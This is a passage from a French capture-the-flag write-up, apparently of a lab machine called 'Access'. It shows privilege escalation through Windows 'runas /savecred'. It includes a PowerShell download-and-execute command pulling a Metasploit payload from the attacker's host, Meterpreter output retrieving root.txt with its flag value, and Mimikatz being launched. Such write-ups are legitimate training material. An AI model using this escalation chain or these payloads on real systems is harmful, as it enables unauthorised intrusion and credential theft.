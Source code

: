 On a les droits pour écrire des fichiers dans le dossier *ZKAccess3.5* mais pas suffisamment pour écraser le fichier *Access.exe*.  

Peu importe, à partir du moment où le système a conservé en mémoire le mot de passe on peut taper n'importe quelle commande *runas* du moment que l'on spécifie l'option */savecred* : Windows va utiliser le mot de passe *Administrator* conservé en mémoire. Il aurait fallu se renseigner sur une commande avant de l'utiliser comme ça ! :p  

On peut réutiliser le module *web\_delivery* :  

```bash
runas /user:administrator /savecred "cmd.exe /C powershell -nop -exec bypass -c IEX (New-Object net.webclient).downloadString('http://10.10.14.177:8080/imyRs8I0j3wnU')"
```

```plain
[*] 10.10.10.98      web_delivery - Delivering Payload
[*] Sending stage (206407 bytes) to 10.10.10.98
[*] Meterpreter session 3 opened (10.10.14.177:4444 -> 10.10.10.98:49161) at 2018-10-12 10:31:32 +0200

msf exploit(multi/script/web_delivery) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  2         meterpreter x64/windows  ACCESS\security @ ACCESS       10.10.14.177:4444 -> 10.10.10.98:49158 (10.10.10.98)
  3         meterpreter x64/windows  ACCESS\Administrator @ ACCESS  10.10.14.177:4444 -> 10.10.10.98:49161 (10.10.10.98)

meterpreter > cd c:/users/administrator/desktop
meterpreter > ls
Listing: c:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-21 23:55:15 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2018-08-22 00:07:29 +0200  root.txt

meterpreter > download root.txt
[*] Downloading: root.txt -> root.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): root.txt -> root.txt
[*] download   : root.txt -> root.txt
meterpreter > cat root.txt
6e1586cc7ab230a8d297e8f933d904cf
```

Pour le plaisir et comme aucun AV n'est présent on peut uploader et lancer un petit *Mimikatz* :  

```plain
c:\users\administrator\downloads>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

```